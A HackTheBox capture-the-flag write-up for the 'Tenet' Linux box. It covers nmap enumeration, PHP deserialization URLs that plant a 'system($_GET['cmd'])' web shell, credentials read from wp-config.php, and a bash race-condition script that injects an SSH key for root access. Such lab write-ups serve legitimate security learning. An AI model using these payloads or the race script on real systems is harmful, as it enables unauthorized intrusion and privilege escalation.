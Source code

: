 ```yaml
---
title: Tenet
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-12 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux, PHP, Race Condition, Wordpress, Deserialization, Sudo Exploitation, Source Code Review, Information Disclosure, Misconfiguration, Password Reuse]
math: true
mermaid: true
image:
  src: /assets/images/f36818c1af1fbd3b5dda319e9fc701b493bd6815634efe1a07e14428efe4cf7f.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Tenet is medium rated linux box. It's all about deserialization and exploiting race condition on the system level**

# ENUMERATION
## NMAP
```	
Nmap scan report for 10.10.10.223
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## WEBSERVER

![picture 18](/assets/images/1c90381bade01990e5425171c3eb12cba52b8fbf548277c8874045ec8e2ad70b.png)  

We have to add tenet.htb to hosts file! ;)

Seems like Rest API ist activated.

(http://tenet.htb/index.php/wp-json/wp/v2/users)

![picture 19](/assets/images/25d88c7291d76902dd9c7040116b0a6fc3f5ad36fc4e54686143be6986a06ca4.png)  

## Word scraping with CEWL to build a wordlist
Let's scrape the website to find possible passwords (it's worth a try!)
```
cewl http://tenet.htb -m 6 -w passes.txt
```

... but it didn't work however there is a hint on the website

![picture 20](/assets/images/ab1ce18ae61ef1059e4aea8c6978f25a624d8a6d6da49991444932449fc17b99.png)  

## Source Code Review

File `sator.php` can be found on the root of the site, but we cannot read it. If we add `.bak`extension however `http://10.10.10.223/sator.php.bak`:

![picture 21](/assets/images/a5c3918df4a626a1b76545bec976b7974c56111213c2bdc8d57216ab2fa22df7.png)  

In order to successfully exploit the above bug three conditions must be satisfied:

- The application must have a class which implements a PHP magic method (such as __wakeup or __destruct) that can be used to carry out malicious attacks, or to start a “POP chain”.
- All of the classes used during the attack must be declared when the vulnerable unserialize() is being called, otherwise object autoloading must be supported for such classes .
- The data passed to unserialized comes from a file, so a file with serialized data must be present on the server.

Reference: https://notsosecure.com/remote-code-execution-via-php-unserialize/

# Exploiation 
## Deserialization

So let's give it a shot:
```
http://10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"shell3.txt";s:4:"data";s:4:"test";}
```

File was succesfully written.

![picture 22](/assets/images/10759c486dec0968a4efd079d75f05377f297b7694abbfbfae5e590908869e30.png)  


Now let's write a php file which accepts GET requests and executes system commands:
```
http://10.10.10.223/sator.php?arepo=O:14:%22DatabaseExport%22:2:{s:9:%22user_file%22;s:10:%22shell5.php%22;s:4:%22data%22;s:30:%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22;}
```
... which has worked:
![picture 23](/assets/images/0cfede87f997c4d64f7d3ef6ef7ceb328d1ab0602e855356ddbd651858a42898.png)  

We do have command execution:

![picture 25](/assets/images/95dacb1f7a061aa6d0b18d8ef1679d62cdc74c5cc4726ca7cce446edfb4c2012.png)  

Let's get a shell, by encoding simple reverse bash shell:

![picture 26](/assets/images/f5d4405dede3110f9cd113832e6ff3f1f6d8d0351e76ed2b77ff2249beadce8e.png)  

Shell has been spawned:

![picture 27](/assets/images/99c695996d12c0a62bd4cb30ced1ee663a6eaaf5d062ff618ff50dccc9c8d895.png)  

# Privilege Escalation
## Enumeration
While enumerating some credentials were found:
```
www-data@tenet:/var/www/html/wordpress$ cat wp-config.php | grep "DB_USER\|DB_PASSWORD"
<ss$ cat wp-config.php | grep "DB_USER\|DB_PASSWORD"
define( 'DB_USER', 'neil' );
define( 'DB_PASSWORD', 'Opera2112' );
```

This credentials also work for SSH as `neil`.

## SUDOERS
	
After logging in with neil user following entry was discovered after running sudo -l
```
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

After checking the `/usr/local/bin/enableSSH.sh` script something became clear - we cannot write to the Path of the root, so it is not possible to exploit that so, this were my thoughts:
1. there is to much code for such a simple task
2. it could be a rabbit hole.
	
The 1. though led to thinking it could be something like race condition so let's try that..
## Exploiting a race condition

Create a new key
```
Enter file in which to save the key (/home/neil/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./id_rsa.
Your public key has been saved in ./id_rsa.pub.
The key fingerprint is:
SHA256:SEkHM+vYF1qsiY4vDjapEXQdQR/JC4g1L/xXTYyV+1E neil@tenet
The key's randomart image is:
+---[RSA 2048]----+
|  ooo+Boo +o.    |
| ...+ooX..oo   E |
| . + o=.=. .. .  |
|. . o* B.. . .   |
|.   o.B.S   . .  |
| ..o  ..     .   |
|o+. .            |
|ooo.             |
|.....            |
+----[SHA256]-----+
```

We can see that everytime another file will be created.
```
neil@tenet:/tmp$ echo $(mktemp -u /tmp/ssh-XXXXXXXX)
/tmp/ssh-FVbr7xIX
neil@tenet:/tmp$ echo $(mktemp -u /tmp/ssh-XXXXXXXX)
/tmp/ssh-CxebKjyk
neil@tenet:/tmp$ echo $(mktemp -u /tmp/ssh-XXXXXXXX)
/tmp/ssh-WPULDJQB
neil@tenet:/tmp$ echo $(mktemp -u /tmp/ssh-XXXXXXXX)
/tmp/ssh-lJEyrgOd
```
Since there is little chance to guess it, let's exploit that race condition.

I wrote following script, which spawns 2 threads and it does that 100 times (i had to run the script 2 times )
```
neil@tenet:/tmp/race$ cat race.sh 
#!/bin/bash
for i in {1..100}
do
        sudo /usr/local/bin/enableSSH.sh &
        echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDycGKFZRwjVjHPmg5YoP/VmccRN9wwBqdr/BBX4IxsnmeuHsWplgTMuLWhDzDz5dONNiMNEqK80tnsX1/MT2MxfWG/LGzy9FgNChV9COPJbQpTgWidH771u/IOXJGJKu1neDGl6z90ojR1OXuTAPzhf7sloyxr2k221WMqtguGFrP0JWfr0UZojYLOaEA5bawQ+pJouv9AuqEETX4ZMI/9iyLA41DFMr521waxtALk0R0xxYlomHGC5jby/e5cP9vYURAW3POhTz/L07se2joqkJoHHHj9d6oudhGKSCBJwLpnKPj4+TCdXfd1BhiaLJB/aRmJOjXEsogW8WXvbKSH neil@tenet" | tee /tmp/ssh-* &
done
```

It took lees than 200 iterations to inject the public key into temporary written file. Grep serve just to get rid of output (KSH belongs to the root key and "authorized" belongs to enableSSH.sh output.

![picture 28](/assets/images/b295a7cad8310daf3bfd07446145ab27266897738c0921af959c1a5eeb8ea0a4.png)  

... and ... root! :)